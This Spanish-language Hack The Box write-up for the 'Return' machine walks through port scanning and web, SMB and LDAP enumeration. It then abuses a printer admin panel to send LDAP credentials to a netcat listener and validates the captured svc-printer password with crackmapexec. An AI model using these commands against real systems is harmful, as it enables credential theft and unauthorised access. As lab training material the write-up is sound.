

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/hackthebox/return/index.html · generator: mkdocs

# Return

```bash
sudo nmap -p- --open -T5 -sCV --min-rate 5000 -n -Pn 10.129.95.241 -oN scanNmap.txt
```

![](../../assets/img/Pasted_image_20260614213444.png)

- 80 -> MICROSOFT_IIS
```bash
whatweb
```

http://10.129.95.241 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.129.95.241], Microsoft-IIS[10.0], PHP[7.4.13], Script, Title[HTB Printer Admin Panel], X-Powered-By[PHP/7.4.13
PHP 7.4.13 -> versión bastante desactualizada
MICROSOFT-IIS 10.0

```bash
nmap --script http-enum 10.129.95.241 -p80
```

-> Nada

Se muestra una pág de configuración de una impresora

![](../../assets/img/Pasted_image_20260614214348.png)

```bash
gobuster dir -u http://10.129.95.241 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,js,txt,git -t 200
```

Hemos probado con el diccionario */usr/share/seclists/Discovery/Web-Content/Web-Servers/IIS.txt* pero no reporta a penas nada

![](../../assets/img/Pasted_image_20260614214806.png)

- 88 -> kerberos-sec

![](../../assets/img/Pasted_image_20260614215521.png)

- 139 -> netbios-ssn
Intentamos conectarnos con sesión nula por smb
```bash
smbclient -L 10.129.95.241 -N
```

![](../../assets/img/Pasted_image_20260614220401.png)

- 389 -> ldap

![](../../assets/img/Pasted_image_20260614220656.png)

Parece que por aquí no va la cosa

- Vamos a intentar decirle al servicio de la impresora que tiene la configuración en el puerto 80, que en lugar de conectarse al servidor *printer.return.local* en el puerto 389, se conecte a nuestra máquina en 10.10.14.96 por el 389 que es donde corre

![](../../assets/img/Pasted_image_20260614235604.png)

Nos ponemos en escucha con
```bash
nc -nlvp 389
```

y pulsamos en update

![](../../assets/img/Pasted_image_20260614235621.png)

Nos envía lo que parece que son unas credenciales
svc-printer:1edFg43012!!

- Probamos con crackmapexec si las credenciales son correctas
```bash
crackmapexec smb 10.129.95.241 -u 'svc-printer' -p '1edFg43012!!'
```

![](../../assets/img/Pasted_image_20260614235836.png)

Nos aparece un [+] por lo que sí son correctas

- Probaremos con *winrm* si podemos conectarnos al servicio de administración remota de windows, para eso el usuario tendrá que estar dentro del grupo *Remote Management Users*, cosa que a priori no sabemos y comprobaremos con crackmapexec
```bash
crackmapexec winrm 10.129.95.241 -u 'svc-printer' -p '1edFg43012!!'
```

![](../../assets/img/Pasted_image_20260615000109.png)
